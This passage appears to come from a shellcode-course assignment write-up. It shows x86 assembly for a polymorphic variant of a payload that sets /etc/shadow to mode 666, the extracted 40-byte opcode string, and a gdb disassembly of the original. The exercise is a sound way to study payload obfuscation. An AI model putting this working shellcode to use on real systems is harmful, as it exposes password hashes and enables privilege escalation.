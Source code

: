 ~~~ nasm
  cdq
  push ecx  ;null terminate
  push word 0x776f  ; wo
  push word 0x6461  ; da
  push word 0x6873  ; hs
  push word 0x2f63  ; /c
  push word 0x7465  ; te
  push word 0x2f2f  ; //
  mov ebx, esp  ;stack pointer
  mov cx, 0666o ; permissions 666
  int 0x80
~~~

#### Compiling the Polymorphic Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh chmod
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xb0\x08\x00\xc0\xfe\xc8\x99\x51\x66\x68\x6f\x77\x66\x68\x61\x64\x66\x68\x73\x68\x66\x68\x63\x2f\x66\x68\x65\x74\x66\x68\x2f\x2f\x89\xe3\x66\xb9\xb6\x01\xcd\x80"
[+] Size: 40 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~

#### Disassembly of the Original Shellcode

~~~ nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./chmod-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/chmod-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/chmod-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	mov    al,0xf
   0x08048082 <+2>:	cdq    
   0x08048083 <+3>:	push   edx
   0x08048084 <+4>:	push   0x776f6461
   0x08048089 <+9>:	push   0x68732f63
   0x0804808e <+14>:	push   0x74652f2f
   0x08048093 <+19>:	mov    ebx,esp
   0x08048095 <+21>:	mov    cx,0x1b6
   0x08048099 <+25>:	int    0x80
End of assembler dump.
(gdb) break *0x08048099
Breakpoint 2 at 0x8048099
(gdb) c
Continuing.

Breakpoint 2, 0x08048099 in _start ()
(gdb) i r
eax            0xf	15
ecx            0x1b6	438
edx            0x0	0
ebx            0xbffff6f0	-1073744144
esp            0xbffff6f0	0xbffff6f0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
~~~